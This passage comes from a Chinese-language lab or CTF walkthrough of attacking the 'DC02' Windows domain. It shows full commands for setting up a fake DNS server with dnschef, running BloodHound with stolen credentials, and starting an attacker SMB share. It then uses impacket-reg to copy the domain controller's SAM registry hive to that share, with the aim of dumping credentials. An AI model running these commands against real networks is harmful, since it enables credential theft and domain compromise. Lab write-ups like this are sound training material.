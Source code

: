 利用zximena448用户与密码 收集域内信息

在这之前，我们要先用 dnschef 设置一个虚假的 DNS 服务器并运行 Bloodhound，然后在运行 BloodHound 时让它使用假的 DNS 服务器 IP 进行域名解析。这样可以帮我们获取更多的信息

```PowerShell
dnschef --fakeip 192.168.56.126
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/21.DC02.003.png)

收集域内信息

```PowerShell
bloodhound-python  -u 'zximena448' -p 'internet' -ns 127.0.0.1 -d SOUPEDECODE.LOCAL  -dc DC01.SOUPEDECODE.LOCAL   --zip
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/21.DC02.004.png)

` `启动neo4j  然后用Bloodhood GUI 对获取的压缩包进行分析

上传压缩包里面的json文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/21.DC02.005.png)

找到我们当前的用户zximena448

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/21.DC02.006.png)

我们可以发现zximena448用户是backup operator 组的成员。

此组可以备份存储凭据的 SAM 数据库。但由于该用户无法登录  DC01，我们用 Impacket 工具远程备份此数据库。我们需要先启动一个 SMB 服务器，然后将SAM数据库备份从服务器上传到我们的攻击机。

## 6. SAM转储

在当前目录启动一个 SMB 服务器 并挂到后台

```PowerShell
impacket-smbserver -smb2support share . &
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[\*] Config file parsed
[\*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[\*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[\*] Config file parsed
[\*] Config file parsed
[\*] Config file parsed
```
设置 SMB 服务器后，我们利用impacket-reg 工具远程备份SAM注册表项。

```PowerShell
impacket-reg -dc-ip 192.168.56.126 SOUPEDECODE.LOCAL/zximena448:internet@192.168.56.126  backup -o '\\192.168.56.6\share' 
```
然后使用impacket-secretsdump 转储这个SAM备份的内容
